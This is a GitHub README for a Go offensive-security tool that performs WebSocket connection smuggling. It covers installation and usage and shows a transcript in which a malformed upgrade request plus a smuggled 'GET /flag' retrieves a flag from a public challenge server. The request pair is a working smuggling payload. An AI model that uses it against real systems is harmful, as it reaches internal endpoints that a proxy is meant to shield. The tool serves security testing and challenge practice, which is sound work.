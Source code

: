 # websocket-connection-smuggler
## Dependency
```cassandraql
$ go get -u github.com/c-bata/go-prompt
```

## Install 
```cassandraql
$ go get github.com/hahwul/websocket-connection-smuggler
```

or 

```cassandraql
$ git clone https://github.com/hahwul/websocket-connection-smuggler
$ cd websocket-connection-smuggler
$ go build
$ ./websocket-connection-smuggler
```

## Usage
### 1. run wcs(websocket-connection-smuggler)
```cassandraql
$ websocket-connection-smuggler
```

### 2. set target address(domain or ip address)
```cassandraql
$ WCS(...) > set target {your target}
```

### 3. is SSL? (default is false)
```cassandraql
# HTTPS
$ WCS(...) > set ssl true

# HTTP
$ WCS(...) > set ssl false
```

### 4. set original request(o_data)

It used the default editor defined in the environment variables, such as vim and no. If you don't have any special settings, vim is the default.
```cassandraql
$ WCS(...) > set o_data
```

e.g
```cassandraql
GET /socket.io/?transport-websocket HTTP/1.1
Host: localhost:80
Sec-WebSocket-Version: 4444
Upgrade: websocket

```

### 5. set smuggling reqeust(s_data)

It used the default editor defined in the environment variables, such as vim and no. If you don't have any special settings, vim is the default.
```cassandraql
$ WCS(...) > set s_data
```

e.g
```cassandraql
GET /flag HTTP/1.1 
Host: localhost:5000

```

## Test to 0ang3el Websocket Smuggling Challenge
```

             ___          
            /   \\        
       /\\ | . . \\       
     ////\\|     ||       
   ////   \\ ___//\       
  ///      \\      \      
 ///       |\\      |     
//         | \\  \   \    
/          |  \\  \   \   
           |   \\ /   /   
           |    \/   /    
            ---------
     WebSocket Connection Smuggler
     by @hahwul

WCS(target=>None | ssl=>false ) > set target challenge.0ang3el.tk:80
WCS(target=>challenge.0ang3el.tk:80 | ssl=>false ) > set o_data
WCS(target=>challenge.0ang3el.tk:80 | ssl=>false ) > set s_data
WCS(target=>challenge.0ang3el.tk:80 | ssl=>false ) > send
GET /socket.io/?transport-websocket HTTP/1.1
Host: localhost:80
Sec-WebSocket-Version: 4444
Upgrade: websocket

2019/11/30 03:39:15 HTTP/1.1 200 OK
Content-Type: application/json
Content-Length: 49
Date: Fri, 29 Nov 2019 18:39:15 GMT

{"flag": "In 50VI37 rUS5I4 vODK@ DRiNKs YOu!!!"}
gth: 119
Date: Fri, 29 Nov 2019 18:39:14 GMT

        �0{"pingInterval":25000,"pingTimeout":60000,"upgrades":["websocket"],"sid":"5148720e07f240a99e6aa7457f41686f"}�40
```

## Video on asciinema
[![asciicast](https://asciinema.org/a/vSYXtlQtvh7yBh0uBES9r5BMV.svg)](https://asciinema.org/a/vSYXtlQtvh7yBh0uBES9r5BMV)

## Reference
- https://speakerdeck.com/0ang3el/whats-wrong-with-websocket-apis-unveiling-vulnerabilities-in-websocket-apis
- https://www.hahwul.com/2019/10/websocket-connection-smuggling.html
- https://github.com/hahwul/websocket-connection-smuggling-go